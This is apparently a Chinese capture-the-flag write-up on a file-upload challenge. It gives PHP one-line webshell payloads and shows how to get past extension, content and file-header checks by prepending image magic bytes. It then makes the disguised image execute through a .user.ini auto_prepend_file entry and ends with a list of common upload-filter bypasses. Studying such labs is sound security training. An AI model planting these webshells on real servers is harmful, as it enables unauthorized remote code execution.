





##  思路

1. 打开网页是比较明显的文件上传的题目。一般文件上传的题目，首先就制作一句话木马上传，然后查看是否返回提示信息。

2. 最普通的一句话木马,保存为php文件，然后上传，显示如下，说明后端不允许上传php文件，然后尝试其他后缀名，php3,php4,php5,phtml,phar均不可行。

   `<?php @eval($_POST('pass'))?>`

   

3. 因此尝试将后缀改为.jpg后再上传，结果如下，检测出<?，说明后端对上传文件有所检查，如果有<?则不允许上传。

   

   因此可考虑换其他木马。

   `<script language="php">eval($_POST['a']);</script>`

   

4. 此时又显示exif_imagetype:not image!

   exif_imagetype是一个判断图像类型的函数，会读取图像的第一个字节并检查其签名

   常见图片的开头几个字节如下：

   > - JPG ：FF D8 FF E0 00 10 4A 46 49 46
   > - GIF(相当于文本的GIF89a)：47 49 46 38 39 61
   > - PNG： 89 50 4E 47

   因此，在上传的木马最前面加上以上字节即可。

   

5. 到此步，已经可以成功上传带有木马的jpg文件，但jpg文件并不能直接执行，因此要想办法能让a.jpg以某种方式执行，然后我们就可以用御剑进行连接。一般服务器将jpg文件当成php文件执行有两种方法:

   - 上传.htaccess文件  该方法可以将jpg等类型的文件设置为php执行。
   - 上传.user.ini文件  该方法前提是上传目录中已存在php文件，可以设置该php文件执行时必须包含我们上传的木马内容。

6. 上传**.user.ini**文件

   ```
   GIF
   auto_prepend_file=a.jpg
   ```

   该文件的含义是当访问同文件下的任何一个文件时，都会包含a.jpg文件。

   

   根据显示的结果，可以看到该目录下同样还有index.php，因此此时在访问index.php文件时，默认会在index.php文件的前面加上a.jpg的内容，即可利用御剑进行连接。

   ```html
   URL地址：http://1d52bb40-2953-4635-a1e0-43a09c024d11.node3.buuoj.cn
   /uploads/e2e7ec165ba05a5e1f3198caa7e22b54/index.php
   密码：pass
   ```


## 总结

- 一般上传一个文件到后台时，后台都会采用一些防御方式，常见的防御方式都有绕过方式。一般防御方式如下：
  - 前端限制（前端直接使用js脚本检测文件类型）
    - 直接禁用js运行
    - 使用burpsuite抓包修改文件后缀
  - 服务端文件扩展名检测
    - 黑名单
      - 文件名大小写绕过
      - 特殊文件名绕过
      - 0x00截断绕过
      - .htaccess文件攻击
    - 白名单
      - 解析漏洞绕过
      - 配合文件包含漏洞
  - 服务端目录路径检测
  - 服务端MIME类型检测
    - 设置文件的Content-Type为允许上传的类型
  - 服务端文件内容检测（检查文件头/文件内容是否包含特殊字符）
    - 伪装成允许的类型（添加文件头等）
- 本题的防御方式有：
  - 文件后缀名黑名单（.php、.php3、.php5等都不可上传）
  - 文件内容检测（包含<?的文件均不可上传）
  - MIME类型检测（检查Content-type）
  - 文件头检测（文件头是否为图片头）
- 对于文件上传的题目，应该多尝试上传几种文件。
  - 最常见的一句话木马
  - 文件后缀(.jpg  .png  .gif)
  - 图片的文件头标志
- 成功上传图片马--》使用.user.ini配置文件间接执行图片马

注：类似题

 **[ACTF2020 新生赛]Upload** 

该题使用了前端检测文件名后缀，服务端检测文件后缀（分别可以使用burpsuite修改文件名和使用phtml文件绕过）

